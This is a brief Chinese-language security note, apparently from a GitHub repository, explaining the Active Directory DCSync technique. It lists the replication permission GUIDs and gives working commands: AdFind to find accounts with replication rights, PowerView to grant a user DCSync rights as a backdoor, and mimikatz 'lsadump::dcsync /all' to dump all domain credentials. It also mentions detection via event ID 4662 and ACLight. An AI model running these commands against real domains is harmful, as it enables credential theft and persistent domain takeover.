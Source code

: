 
# Dcsync  
## Dcsync的原理 

在RPC请求当中传输到DRSUAPI（目录复制服务的API）的DsGetNCChanges的操作，这个操作能够用于从域控当中复制数据。  

相关的ACL权限为 

```
DS-Replication-Get-Changes(GUID:1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)；

DS-Replication-Get-Changes-All(GUID:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)；

DS-Replication-Get-Changes(GUID:89e95b76-444d-4c62-991a-0facbeda640c)；
```

**寻找其中存在DCSync权限的用户**

```
AdFind.exe -s subtree -b "DC=whoamianony,DC=org" -sdna nTSecurityDescriptor -sddl+++ -sddlfilter ;;;"Replicating Directory Changes";; -recmute
```



直接使用powerview添加ACE的方式 

```
Add-DomainObjectAcl -TargetIdentity "DC=0day,DC=org" -PrincipalIdentity jack -Rights DCSync
```



一般在域内拥有这个权限的用户为 

```
Domain admins
Enterprise Admins 
域控制器的计算机账户
```

注意其中的监控日志 

Event ID 号 4662 

ACLight可以查看后门



## 利用的思路 

域控制器上执行的都可以 

域内主机上执行 

1、mimikatz 

导入票据进行dcsync 

利用over pass the hash

## 使用的方式 

```
lsadump::dcsync /domain:xxx.com /all
```



## refer

https://mp.weixin.qq.com/s?__biz=MzI0MDY1MDU4MQ==&mid=2247527164&idx=1&sn=7f1d6db1d229b06138cf05bdaf3ea76a

